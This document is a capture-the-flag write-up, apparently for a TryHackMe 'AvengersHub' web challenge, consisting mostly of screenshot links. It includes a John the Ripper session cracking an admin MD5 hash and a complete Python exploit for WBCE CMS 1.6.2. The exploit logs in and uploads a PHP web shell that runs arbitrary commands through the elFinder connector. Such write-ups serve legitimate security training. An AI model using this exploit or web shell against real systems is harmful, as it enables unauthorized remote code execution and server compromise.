 ![1742405137626](images/AvengersHub/1742405137626.png)

![1742405332316](images/AvengersHub/1742405332316.png)

![1742406656659](images/AvengersHub/1742406656659.png)

![1742405804166](images/AvengersHub/1742405804166.png)

![1742405853432](images/AvengersHub/1742405853432.png)

![1742405930295](images/AvengersHub/1742405930295.png)

![1742405966658](images/AvengersHub/1742405966658.png)

```
┌──(root㉿ket752sbah)-[~/THM/Hackfinity_battle/Web]
└─# echo "b0439fae31f8cbba6294af86234d5a28" > hash_admin.txt  
┌──(root㉿ket752sbah)-[~/THM/Hackfinity_battle/Web]
└─# john hash_admin.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-MD5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=8
Press 'q' or Ctrl-C to abort, almost any other key for status
securepassword   (?)   
1g 0:00:00:00 DONE (2025-03-19 17:41) 14.28g/s 18656Kp/s 18656Kc/s 18656KC/s seductiveone..secilly
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed. 

 
```

![1742406146483](images/AvengersHub/1742406146483.png)

```
# Exploit Title: WBCE CMS v1.6.2 - Remote Code Execution (RCE)
# Date: 3/5/2024
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor Homepage: https://wbce-cms.org/
# Software Link: https://github.com/WBCE/WBCE_CMS/archive/refs/tags/1.6.2.zip
# Version: 1.6.2
# Tested on: MacOS

import requests
from bs4 import BeautifulSoup
import sys
import time

def login(url, username, password):
    print("Logging in...")
    time.sleep(3)
    with requests.Session() as session:
        response = session.get(url + "/admin/login/index.php")
        soup = BeautifulSoup(response.text, 'html.parser')
        form = soup.find('form', attrs={'name': 'login'})
        form_data = {input_tag['name']: input_tag.get('value', '') for input_tag in form.find_all('input') if input_tag.get('type') != 'submit'}
        # Kullanıcı adı ve şifre alanlarını dinamik olarak güncelle
        form_data[soup.find('input', {'name': 'username_fieldname'})['value']] = username
        form_data[soup.find('input', {'name': 'password_fieldname'})['value']] = password
        post_response = session.post(url + "/admin/login/index.php", data=form_data)
        if "Administration" in post_response.text:
            print("Login successful!")
            time.sleep(3)
            return session
        else:
            print("Login failed.")
            print("Headers received:", post_response.headers)
            print("Response content:", post_response.text[:500])  # İlk 500 karakter
            return None

def upload_file(session, url):
    # Dosya içeriğini ve adını belirleyin
    print("Shell preparing...")
    time.sleep(3)
    files = {'upload[]': ('shell.inc', """<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
if(isset($_GET['cmd']))
{
    system($_GET['cmd']);
}
?>
</pre>
</body>
</html>""", 'application/octet-stream')}
    data = {
        'reqid': '18f3a5c13d42c5',
        'cmd': 'upload',
        'target': 'l1_Lw',
        'mtime[]': '1714669495'
    }
    response = session.post(url + "/modules/elfinder/ef/php/connector.wbce.php", files=files, data=data)
    if response.status_code == 200:
        print("Your Shell is Ready: " + url + "/media/shell.inc")
    else:
        print("Failed to upload file.")
        print(response.text)

if __name__ == "__main__":
    url = sys.argv[1]
    username = sys.argv[2]
    password = sys.argv[3]
    session = login(url, username, password)
    if session:
        upload_file(session, url)
```

![1742406702348](images/AvengersHub/1742406702348.png)

![1742406756702](images/AvengersHub/1742406756702.png)

![1742406781797](images/AvengersHub/1742406781797.png)
